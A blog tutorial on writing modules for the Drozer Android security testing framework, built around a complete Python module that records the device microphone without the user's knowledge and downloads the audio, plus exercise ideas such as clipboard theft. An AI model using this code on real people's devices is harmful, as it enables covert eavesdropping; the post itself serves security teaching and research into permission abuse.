 ```yaml
---
date: "2018-05-13T17:10:13+05:30"
title: "Writing Drozer Modules"
categories:
  - Technical
tags:
  - Drozer
  - android
draft: false
---
```


This post is a result of my experimentation with Drozer. Drozer is a security testing framework for Android, developed by MWR Labs. According the Drozer's official [documentation](https://labs.mwrinfosecurity.com/assets/BlogFiles/mwri-drozer-user-guide-2015-03-23.pdf):

> Drozer allows you to assume the role of an Android app and interact with other apps. It can do anything that an
installed application can do, such as make use of Android’s Inter-Process Communication (IPC) mechanism and
interact with the underlying operating system.


Drozer modules are written in Python. The module performs operations on an Android device with the help of an agent app installed on the device. The agent app, by default, has permission to use the internet connection only. This permission is required so that the agent can open a ServerSocket on port 31415 (default). The agent will listen for the incoming connections on this port. The console will connect to the agent on this port.


Drozer modules are basically inherited Python classes. The parent class is defined in [drozer.modules.Module](https://github.com/mwrlabs/drozer/blob/develop/src/drozer/modules/base.py). Drozer console provides commands to create a custom module repository which is very useful for the local development of modules.

You can read more about the structure of a Drozer module [here](https://github.com/mwrlabs/drozer/wiki/Writing-a-Module).

I will explain all the critical parts of a Drozer module with the help of a sample module. I will be implementing a module to record and save the sound from the inbuilt mic of an Android device.

I initialized a new module repository using Drozer console using the following command.
{{< highlight bash >}}
dz> module repository create custom
Initialised repository at custom.
{{< /highlight >}}

You will see a new directory `custom` in your current directory after executing above command. Navigate to this directory and create a new folder with any name. I prefer to name this folder same as my module name. In this folder, create a file `__init__.py`. Drozer identifies the folder as a module directory if `__init__.py` is present in the directory. Now you can implement your module in this directory.

To begin implementing our module, create a new file `record.py` in the module directory. Drozer has many different utility classes, which we can use to simplify our implementation. To use these utility classes ([mixins](https://github.com/mwrlabs/drozer/wiki/Using-mixins)), our module class must extend _mixins_ using Python's multiple inheritance feature.

We first need to import all the required mixins. The mixins are stored in `modules.common` package in the Drozer source tree. After importing mixins and extending our class, the code will look like this. You can also import any other standard Python module here.
{{< highlight python >}}
from drozer.modules import common, Module
import os, subprocess, time

class Record(Module, common.Shell, common.FileSystem, common.ClassLoader):
{{< /highlight >}}

Now we will set up the metadata for our module. This information will help Drozer to organize and list our module correctly. We can define name, description, author, date, license, path, permissions, and examples. Most of the available options are self-explanatory. But _path_ and _permissions_ require some explanation.

The _path_ variable defined here is an array which contains the values for the namespace of the module. Drozer supports separate namespaces for each module. We can combine similar modules in the same namespace using this feature.

The _permissions_ array variable contains all the permissions that this module will require for proper functioning. For example, our module will need permission to record audio on the device to work correctly. So we define this permission in the permissions array. The agent app on the device is required to  have this permission. Otherwise, our module will throw an error.

The following snippet shows the metadata section of our module.
{{< highlight python >}}
name = "Record sound from the inbuilt mic of an Android device."
description = "Record sound from the inbuilt mic of an Android device. The default save format is 3GPP. Relies on the agent having the RECORD_AUDIO permission."
examples = """
dz> run custom.record.record
Setting up recorder configuration...
Recording started
Press any key to stop recording

Recording stopped...downloading recording
Screenshot captured. Saved at location /home/yash/work/drozer/1524201166.3gp
"""
author = "Yash Agarwal"
date = "2018-04-14"
license = "BSD (3 clause)"
path = ["custom", "record"]
permissions = ["android.permission.RECORD_AUDIO", "com.mwr.dz.permissions.GET_CONTEXT"]
{{< /highlight >}}

Now we can start implementing the heart of our module, the `execute()` function. This function will be invoked by Drozer when the module is run. Every action that the module is expected to perform should be implemented in this method.

The implementation of `execute()` method is slightly tricky and requires an understanding of different classes and methods provided by the Android API. As we are writing a module to record sound, we will look into the documentation of [MediaRecorder](https://developer.android.com/guide/topics/media/mediarecorder.html) class. Before reading further, go through the documentation about the use of reflection API in Drozer [here](https://github.com/mwrlabs/drozer/wiki/Using-Reflection).

The `execute()` function is given below.
{{< highlight python >}}
def execute(self, arguments):
    # unique file names
    filename = str(int(time.time())) + ".3gp"

    # current working directory of Drozer console
    cwd = self.workingDir()

    # Magic of Reflection API !!!
    recorder = self.new("android.media.MediaRecorder")
    AudioSource = self.klass("android.media.MediaRecorder$AudioSource")
    OutputFormat = self.klass("android.media.MediaRecorder$OutputFormat")
    AudioEncoder = self.klass("android.media.MediaRecorder$AudioEncoder")

    recorder.setAudioSource(AudioSource.MIC)
    recorder.setOutputFormat(OutputFormat.THREE_GPP)
    recorder.setAudioEncoder(AudioEncoder.AMR_NB)
    recorder.setOutputFile("%s/recording.3gp" % cwd)
    recorder.prepare()

    self.stdout.write("Recording started\n")
    recorder.start()
    raw_input("Press any key to stop recording\n")
    recorder.stop()
    self.stdout.write("Recording stopped...\n")
    recorder.reset()
    recorder.release()

    # Download file from device to PC
    length = self.downloadFile("%s/recording.3gp" % cwd, filename)

    if length != None:
        self.stdout.write("Recording saved\n")

    else:
        self.stderr.write("Recording could not be fetched from the device.\n")
{{< /highlight >}}

I followed the sample use case given on [this](https://developer.android.com/reference/android/media/MediaRecorder.html) page, to instantiate and use the _MediaRecorder_ object.

After the recording is finished, we want to save this recorded media file to our computer. Drozer provides a method, [downloadFile](https://github.com/mwrlabs/drozer/blob/c92d74024c653b6dc7de3378a24e51d276ae2c62/src/drozer/modules/common/file_system.py) exactly for this purpose. This method returns the length of the data downloaded on success and `None` otherwise. We can use this information to test the success or failure of the fetching of the recording.

That's all. We have successfully implemented a Drozer module which can record the sound on an Android device without the knowledge of the user. Do you smell something fishy here? The whole idea here depends on that particular `android.permission.RECORD_AUDIO` permission, that our agent app had. This allowed our module to record without _user consent_ (the user actually gave her consent unknowingly, while installing agent app). Many apps nowadays ask for arbitrarily random permissions. Those permissions might not be related to the functionality of the app in any way, but because there is no method to install apps without granting these permissions, the users grant all permissions to these apps. That can be exploited very easily. This tutorial tried to show one of such exploitations.

Here are some exercises that you should try if you want to learn more about Drozer module development.

- A module to initiate a call on a device.
- A module to get the clipboard values on a device
- Try finding a public exploit on Android forums such as XDA and implement that exploit as a Drozer module.

Slightly tougher one.

- A module to terminate a call without user intervention (I do not know if it is possible to do this programmatically. If you implement this successfully, do let me know in comments section.)


Thanks for reading. Cheers :)
